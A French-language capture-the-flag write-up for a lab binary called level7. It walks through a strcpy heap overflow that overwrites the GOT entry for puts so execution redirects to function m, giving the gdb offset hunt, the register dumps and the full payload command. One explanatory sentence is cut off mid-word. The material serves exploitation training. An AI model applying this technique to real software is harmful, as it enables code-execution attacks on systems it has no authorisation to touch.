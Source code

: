 **Exploit**: Heap Overflow

**Commande**:  
```bash
./level7 $(python -c "print 'a' * 20 + '\x28\x99\x04\x08'") $(python -c "print '\xf4\x84\x04\x08'")
```

**Explication**:  
Dans cet exercice, strcpy ne verifie pas la longueur de la chaîne qu'elle doit copier, donc on peut faire un heap overflow, 
apres plusieurs tentatives, il n'y qu'avec le premier strcpy ou on peut avoir un heapoverflow, dans ce cas si les données copiées lors du premier appel sont plus grandes que l'espace alloué, 
il pourrait y avoir un écrasement de données dû au débordement de tampon.
rdement pour écraser l'adresse de la fonction puts dans la Global Offset Table (GOT) par l'adresse de notre propre fonction, nommée m. 
Cette manipulation nous permettrait de rediriger les appels à puts vers m, 

**Etapes**:  
- **On défini l'Offset pour provoquer le ébordement de tampon en utilisant un pattern**:    

```bash
(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2A AAAA
Starting program: /home/user/level7/level7 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2A AAAA
```
- **Crash du programme avec une Segmentation Fault**:    
```bash
Program received signal SIGSEGV, Segmentation fault.
0xb7eb8f52 in ?? () from /lib/i386-linux-gnu/libc.so.6
```

- **Inspection des registres**:  

```bash
(gdb) info register
eax            0x41414141	1094795585
ecx            0xbffff90d	-1073743603
edx            0x37614136	929120566
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff6bc	0xbffff6bc
ebp            0xbffff6e8	0xbffff6e8
esi            0x0	0
edi            0x0	0
eip            0xb7eb8f52	0xb7eb8f52
eflags         0x210246	[ PF ZF IF RF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```
Par défaut, les données de la destination sont dans edx:  
```bash
edx : 0x37614136 : 7aA6 : 6Aa7 : Aa0Aa1Aa2Aa3Aa4Aa5Aa`6Aa7`
```
On a donc un offset de 20

- **On cherche l'adresse de m et de puts:**
```bash
info function
All defined functions:
....
0x080484f4  m
0x08048400  puts
....
```

- **On cherche puts dans la GOT**:
(gdb) x/i 0x08048400
   0x8048400 <puts@plt>:	jmp    *0x8049928

- **Payload final**:  
```bash
$(python -c "print 'a' * 20 + '\x28\x99\x04\x08'") $(python -c "print '\xf4\x84\x04\x08'")
```

**Ressources**:

- [Heap Overflow - `strcpy`](https://security.stackexchange.com/questions/258891/heap-overflow-strcpy-on-x86-64-64bit)  
- [Heap Overflow Exploitation (YouTube)](https://www.youtube.com/watch?v=TfJrU95q1J4)
